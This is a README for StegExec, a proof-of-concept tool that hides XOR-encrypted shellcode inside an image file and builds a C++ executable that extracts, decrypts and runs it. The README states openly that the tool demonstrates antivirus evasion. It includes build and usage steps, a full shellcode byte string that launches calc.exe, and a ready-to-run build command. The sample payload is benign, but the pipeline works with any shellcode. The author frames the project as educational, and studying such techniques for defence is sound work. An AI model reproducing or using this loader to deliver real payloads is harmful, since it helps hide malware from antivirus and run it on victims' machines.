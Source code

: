 # StegExec 🚀
                                                .       .
                                               / `.   .' \
                                       .---.  <    > <    >  .---.
                                       |    \  \ - ~ ~ - /  /    |
                                        ~-..-~             ~-..-~
                                    \~~~\.'                    `./~~~/
                         .-~~^-.    \__/                        \__/
                       .'  O    \     /               /       \  \
                      (_____,    `._.'               |         }  \/~~~/
                       `----.         /       }     |        /     \__/
                            `-.      |       /      |       /       `. ,~~|
                                ~-.__|      /_ - ~ ^|      /- _       `..-'   f: f:
                                     |     /        |     /     ~-.     `-. _||_||_
                                     |_____|        |_____|         ~ - . _ _ _ _ _>

## Overview
StegExec (Steganography Executor) is a fully automated Proof of Concept for embedding XOR-encrypted shellcode within an image file. The project encrypts the shellcode, injects it into the image, and compiles a custom C++ executable that, when launched, locates, decrypts, and executes the shellcode. This project demonstrates file steganography, memory manipulation, and antivirus evasion techniques for educational purposes. 

NOTE: I made this to learn more about steganography and antivirus evasion for my own career development. This is not intended to be used for malicious purposes.

## Features
- Automated encryption, injection, and executable compilation
- Custom C++ loader for shellcode execution on launch
- Batch-driven workflow for seamless deployment
- Demonstrates file-based stealth execution

## Getting Started

### Prerequisites
- Windows
- Python 3.x
- MinGW (includes g++ and windres)
- PowerShell

### Installation
1. Clone the repository:
   ```bash
   git clone https://github.com/craig-rylance/StegExec.git
   cd stegexec
2. Ensure all required dependencies are installed:
- Install MinGW from [MinGW-w64](https://www.mingw-w64.org/) and ensure `g++` and `windres` are included in your installation.
3. Set up your environment:
- Place your target image file in the project directory.
- Prepare your shellcode input.

### Usage
1. Open PowerShell.
2. Run the batch script with the target image filename and shellcode as arguments:
    ```bash 
    .\compile-executable.cmd [target_image_file] "[shellcode]"
3. After successful execution, you will have a compiled `executable.exe` file that can be launched to execute the injected shellcode.


#### Example shellcode format (Launches calc.exe): 
Ensure that shellcode is formatted exactly like this, with spaces separating each byte.

    0x48 0x31 0xff 0x48 0xf7 0xe7 0x65 0x48 0x8b 0x58 0x60 0x48 0x8b 0x5b 0x18 0x48 0x8b 0x5b 0x20 0x48 0x8b 0x1b 0x48 0x8b 0x1b 0x48 0x8b 0x5b 0x20 0x49 0x89 0xd8 0x8b 0x5b 0x3c 0x4c 0x01 0xc3 0x48 0x31 0xc9 0x66 0x81 0xc1 0xff 0x88 0x48 0xc1 0xe9 0x08 0x8b 0x14 0x0b 0x4c 0x01 0xc2 0x4d 0x31 0xd2 0x44 0x8b 0x52 0x1c 0x4d 0x01 0xc2 0x4d 0x31 0xdb 0x44 0x8b 0x5a 0x20 0x4d 0x01 0xc3 0x4d 0x31 0xe4 0x44 0x8b 0x62 0x24 0x4d 0x01 0xc4 0xeb 0x32 0x5b 0x59 0x48 0x31 0xc0 0x48 0x89 0xe2 0x51 0x48 0x8b 0x0c 0x24 0x48 0x31 0xff 0x41 0x8b 0x3c 0x83 0x4c 0x01 0xc7 0x48 0x89 0xd6 0xf3 0xa6 0x74 0x05 0x48 0xff 0xc0 0xeb 0xe6 0x59 0x66 0x41 0x8b 0x04 0x44 0x41 0x8b 0x04 0x82 0x4c 0x01 0xc0 0x53 0xc3 0x48 0x31 0xc9 0x80 0xc1 0x07 0x48 0xb8 0x0f 0xa8 0x96 0x91 0xba 0x87 0x9a 0x9c 0x48 0xf7 0xd0 0x48 0xc1 0xe8 0x08 0x50 0x51 0xe8 0xb0 0xff 0xff 0xff 0x49 0x89 0xc6 0x48 0x31 0xc9 0x48 0xf7 0xe1 0x50 0x48 0xb8 0x9c 0x9e 0x93 0x9c 0xd1 0x9a 0x87 0x9a 0x48 0xf7 0xd0 0x50 0x48 0x89 0xe1 0x48 0xff 0xc2 0x48 0x83 0xec 0x20 0x41 0xff 0xd6

#### Example command:

    .\compile-executable.cmd example-image.jpg "0x48 0x31 0xff 0x48 0xf7 0xe7 0x65 0x48 0x8b 0x58 0x60 0x48 0x8b 0x5b 0x18 0x48 0x8b 0x5b 0x20 0x48 0x8b 0x1b 0x48 0x8b 0x1b 0x48 0x8b 0x5b 0x20 0x49 0x89 0xd8 0x8b 0x5b 0x3c 0x4c 0x01 0xc3 0x48 0x31 0xc9 0x66 0x81 0xc1 0xff 0x88 0x48 0xc1 0xe9 0x08 0x8b 0x14 0x0b 0x4c 0x01 0xc2 0x4d 0x31 0xd2 0x44 0x8b 0x52 0x1c 0x4d 0x01 0xc2 0x4d 0x31 0xdb 0x44 0x8b 0x5a 0x20 0x4d 0x01 0xc3 0x4d 0x31 0xe4 0x44 0x8b 0x62 0x24 0x4d 0x01 0xc4 0xeb 0x32 0x5b 0x59 0x48 0x31 0xc0 0x48 0x89 0xe2 0x51 0x48 0x8b 0x0c 0x24 0x48 0x31 0xff 0x41 0x8b 0x3c 0x83 0x4c 0x01 0xc7 0x48 0x89 0xd6 0xf3 0xa6 0x74 0x05 0x48 0xff 0xc0 0xeb 0xe6 0x59 0x66 0x41 0x8b 0x04 0x44 0x41 0x8b 0x04 0x82 0x4c 0x01 0xc0 0x53 0xc3 0x48 0x31 0xc9 0x80 0xc1 0x07 0x48 0xb8 0x0f 0xa8 0x96 0x91 0xba 0x87 0x9a 0x9c 0x48 0xf7 0xd0 0x48 0xc1 0xe8 0x08 0x50 0x51 0xe8 0xb0 0xff 0xff 0xff 0x49 0x89 0xc6 0x48 0x31 0xc9 0x48 0xf7 0xe1 0x50 0x48 0xb8 0x9c 0x9e 0x93 0x9c 0xd1 0x9a 0x87 0x9a 0x48 0xf7 0xd0 0x50 0x48 0x89 0xe1 0x48 0xff 0xc2 0x48 0x83 0xec 0x20 0x41 0xff 0xd6"

Running this command will produce an executable that will launch calc.exe using the encrypted shellcode inside of example-image.jpg

## ⚠️ Important Note
This project is for **educational and research purposes only**. Ensure compliance with all legal and ethical guidelines when testing or demonstrating the techniques presented in this project.

## Contributing
If you would like to contribute to this project, please fork the repository and submit a pull request with your enhancements or bug fixes.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Acknowledgments
- Credit to leetcipher (https://github.com/leetCipher) for the base Python and C++ code. This repo improves his work to automate into a simple command line tool.